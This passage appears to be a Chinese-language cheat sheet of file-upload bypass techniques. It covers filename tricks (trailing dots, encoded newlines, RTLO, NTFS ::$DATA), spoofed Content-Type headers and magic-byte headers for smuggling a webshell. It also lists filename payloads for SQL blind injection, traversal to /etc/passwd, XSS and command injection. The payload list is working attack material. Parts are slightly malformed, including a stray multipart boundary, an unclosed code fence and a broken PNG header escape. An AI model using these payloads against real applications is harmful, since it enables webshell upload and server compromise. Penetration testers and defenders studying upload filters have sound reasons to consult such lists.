 - 特殊字符
  
  * 后缀名称为点 : `file.php......` , 在Windows中，当创建一个结尾带有点的文件时，这些点将被删除，最终结果为`file.php`。
  * 空格和换行符
    * `file.php%20`
    * `file.php%0d%0a.jpg`
    * `file.php%0a`
  * 从右到左反转 (RTLO): `name.%E2%80%AEphp.jpg` => `name.gpj.php`.
  * 斜杠: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
  * 利用`./`: `file.jsp/././././.`

- 修改MIME类别 `Content-Type : application/x-php` 或`Content-Type : application/octet-stream` 改为 `Content-Type : image/gif`
  
  * `Content-Type : image/gif`
  * `Content-Type : image/png`
  * `Content-Type : image/jpeg`
  * Content-Type类别字典: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
  * 双重Content-Type：一次用于不允许的类型，一次用于允许的类型。
    
    ```
    Content-Disposition: form-data; name="cmd" filename="test.jpg"
    Content-Type: application/octet-stream
    Content-Type: image/jpeg
    ```
  
  123
  ------WebKitFormBoundaryxPtv296P4t251LLl--
  ```

- [文件头欺骗](https://en.wikipedia.org/wiki/List_of_file_signatures)
  
  * 部分应用程序根据上传文件的文件头来识别文件类型（不检测上传文件名称后缀），防止上传非指定类型文件，这时候可以原webshell文件中添加白名单文件头从而绕过上传。
    * PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
    * JPG: `\xff\xd8\xff`
    * GIF: `GIF87a` 或`GIF8;`

- 使用大小写绕过文件上传黑名单，如Php，JsP，ASp等。

- 在windows系统中使用NTFS数据流绕过黑名单进行上传。假设一个应用系统仅支持php，而应用系统对文件上传功能采用了黑名单限制，后缀名称php被列入黑名单（大小写不敏感）。这时候可以采用NTFS数据流方式绕过，将上传文件名称改为`1.php::$DATA.`，访问webshell时忽略掉`::$DATA.`，即shell地址为`1.php`

### 文件名漏洞

有时候，漏洞不是上传，而是应用程序对文件(名)之后的处理方式。

- SQL时间盲注Payloads例子:  `poc.jpg'(select*from(select(sleep(20)))a)+'.extension`
- 文件包含/目录穿越Payloads例子: `image.png../../../../../../../etc/passwd` 
- XSS Payloads例子: `'"><img src=x onerror=alert(document.domain)>.extension`
- 目录穿越payloads例子:`../../../tmp/lol.png`
- 命令执行payloads例子: `; sleep 10;`

您还可以上传:

- 用于触发XSS的HTML/SVG/XML文件
- 如果中间件支持SSI，可以上传SHTML文件，如果允许执行命令的情况下可RCE
- EICAR文件，用于检查是否存在杀软

### 图片压缩

- 图片元数据，将payload隐藏在元数据中的评论标签中。
- 图片调整大小，以隐藏压缩算法中的payload绕过调整大小。还搞定了 `getimagesize()` 和`imagecreatefromgif()`.
  - [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): 使用 createBulletproofJPG.py(文件在`图片压缩`文件夹中)
  ```